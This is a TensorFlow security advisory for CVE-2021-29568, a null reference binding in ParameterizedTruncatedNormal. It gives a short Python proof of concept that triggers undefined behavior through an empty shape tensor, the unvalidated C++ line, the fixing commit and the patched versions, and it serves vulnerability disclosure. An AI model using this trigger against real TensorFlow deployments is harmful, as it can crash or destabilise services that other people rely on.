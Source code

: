 ## TFSA-2021-055: Reference binding to null in `ParameterizedTruncatedNormal`

### CVE Number
CVE-2021-29568

### Impact
An attacker can trigger undefined behavior by binding to null pointer in
`tf.raw_ops.ParameterizedTruncatedNormal`:

```python
import tensorflow as tf

shape = tf.constant([], shape=[0], dtype=tf.int32)
means = tf.constant((1), dtype=tf.float32)
stdevs = tf.constant((1), dtype=tf.float32)
minvals = tf.constant((1), dtype=tf.float32)
maxvals = tf.constant((1), dtype=tf.float32)

tf.raw_ops.ParameterizedTruncatedNormal(
  shape=shape, means=means, stdevs=stdevs, minvals=minvals, maxvals=maxvals)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/3f6fe4dfef6f57e768260b48166c27d148f3015f/tensorflow/core/kernels/parameterized_truncated_normal_op.cc#L630)
does not validate input arguments before accessing the first element of `shape`:

```cc
int32 num_batches = shape_tensor.flat<int32>()(0);
```

If `shape` argument is empty, then `shape_tensor.flat<T>()` is an empty array.

### Patches
We have patched the issue in GitHub commit
[5e52ef5a461570cfb68f3bdbbebfe972cb4e0fd8](https://github.com/tensorflow/tensorflow/commit/5e52ef5a461570cfb68f3bdbbebfe972cb4e0fd8).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
